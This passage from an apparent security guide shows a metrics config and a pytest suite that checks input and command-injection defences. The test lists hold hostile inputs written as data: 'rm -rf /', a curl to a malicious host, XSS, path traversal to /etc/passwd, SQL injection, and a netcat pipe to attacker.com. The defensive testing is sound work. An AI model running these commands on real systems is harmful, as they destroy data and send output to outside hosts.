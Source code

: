 ```python
        'webhook': 'https://security-operations.company.com/webhook',
        'siem_integration': True
    }
}
```

### 3. Performance and Security Metrics

```python
# metrics/security_metrics.py
SECURITY_METRICS = {
    'authentication_failures': 'counter',
    'authorization_denials': 'counter',
    'input_validation_failures': 'counter',
    'suspicious_activities': 'counter',
    'session_duration': 'histogram',
    'api_response_time': 'histogram',
    'model_inference_time': 'histogram'
}
```

## Security Validation and Testing

### 1. Automated Security Testing

```python
# tests/test_security.py
import pytest
from abov3.utils.security import SecurityValidator, SecureCommandExecutor

class TestSecurity:
    """Comprehensive security test suite"""
    
    def test_input_validation(self):
        """Test input validation against injection attacks"""
        
        malicious_inputs = [
            "; rm -rf /",
            "$(curl malicious.com)",
            "<script>alert('xss')</script>",
            "../../../etc/passwd",
            "'; DROP TABLE users; --"
        ]
        
        for malicious_input in malicious_inputs:
            result = SecurityValidator.validate_user_input(malicious_input)
            assert not result['is_valid'], f"Failed to detect: {malicious_input}"
    
    def test_command_injection_protection(self):
        """Test protection against command injection"""
        
        malicious_commands = [
            "git status; rm -rf /",
            "python script.py && curl malicious.com",
            "git status | nc attacker.com 4444"
        ]
        
        for cmd in malicious_commands:
            result = SecureCommandExecutor.execute_safe_command(cmd)
            assert not result['success'], f"Command injection not prevented: {cmd}"
    
    def test_authentication_security(self):
        """Test authentication security measures"""
```